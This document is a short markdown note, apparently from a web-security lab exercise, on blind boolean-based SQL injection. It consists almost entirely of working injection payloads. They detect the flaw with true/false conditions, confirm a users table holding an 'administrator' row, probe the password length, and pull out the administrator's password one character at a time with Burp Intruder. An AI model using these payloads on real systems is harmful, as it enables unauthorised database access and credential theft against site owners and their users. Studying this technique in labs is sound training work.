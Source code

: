 #sqli 

## Detection

```sql
anything' AND '1'='1
```
-> Normal message displayed.

```sql
anything' AND '1'='2
```
-> No message is displayed.

## Find Table Name
```sql
anything' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
-> Confirm table name and rows.

## Find the Number of Chars in Password
```sql
anything' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

```sql
anything' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```

```sql
anything' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
```
...

## Extract Password (with Burp Intruder Cluster Bomb)
```sql
value' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

```sql
value' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='b
```
...


```sql
value' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

```sql
value' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='b
```